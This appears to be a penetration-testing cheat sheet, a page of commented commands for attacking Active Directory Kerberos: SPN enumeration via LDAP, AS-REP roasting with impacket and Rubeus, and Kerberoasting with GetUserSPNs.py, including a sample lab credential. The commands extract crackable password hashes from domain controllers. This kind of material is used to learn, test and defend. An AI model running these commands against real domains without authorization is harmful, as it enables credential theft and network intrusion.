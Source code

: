 ## Service Principal Names (SPN) 
```
# Service Principal Names (SPNs) are used in AD to tie services into Kerberos authentication
# Common SPN directory: http://adsecurity.org/?page_id=183
# To find SPN you can use LDAP:

ldapsearch -LLL -x -H ldap://pdc01.domain.com -D "user@domain" -W -b "dc=lab,dc=ropnop,dc=com" "servicePrincipalName=*" sAMAccountName servicePrincipalName 

# You can request a TGS for a SPN, e.g. to access RDP, use TGT to request TGS for TERMSRV/PDC01
# The TGS is encrypted with the service accounts NTLM password hash.
# It's possible to crack TGS offline, but cracking a TGS for a service SPN is generally useless UNLESS the SPN is tied to a user account.
```

## ASREP Roasting 
```
# AS-REP roasting is an attack against Kerberos for user that don't require preauthentication
# During preauthentication, a user will enter their password which will be used to encrypt a timestamp 
# and then the domain controller will attempt to decrypt it and validate that the right password was used and that 
# it is not replaying a previous request.  From there, the TGT will be issued for the user to use for future
# authentication.  If preauthentication is disabled, an attacker could request authentication data for any user and
#  the DC would return an encrypted TGT that can be brute-forced offline. 

# Using impacket
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py domain/user:passwrd -request -format [hashcat|john] -outputfile outfile

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py domain/ -usersfile <users_file> -format [hashcat|john] -outputfile outfile

# Using Rubeus
.\Rubeus.exe asreproast /format:[hashcat|john] /outfile:file
```

## Kerberoasting 
```
# For service accounts, it's common to set SPNs to user accounts, the TGS is then encrypted with the user's NTLM password hash:
# - It's called “Kerberoasting” and presented by Tim Medin at Derbycon 2015.

# Kerberoasting requires a valid domain account.
# Three step process:
# - Find SPN tied to user accounts through LDAP (service accounts)
# - Request a TGS for each SPN
# - Crack the TGS offline to recover the service account's password

# Impacket makees this easy with GetUserSPNs.py
# Will automatically LDAP query then request and TGS in JtR/Hashcat format.

GetUserSPNs.py -dc-ip 10.10.10.100 -outputfile kerberos_hashes.txt -request -debug active.htb/SVC_TGS:GPPstillStandingStrong2k18

# You may encounter issue with timezone, you can fix it out that way:
• service ntp stop

# Comment server line in /etc/ntp.conf
timedatectl set-ntp false
```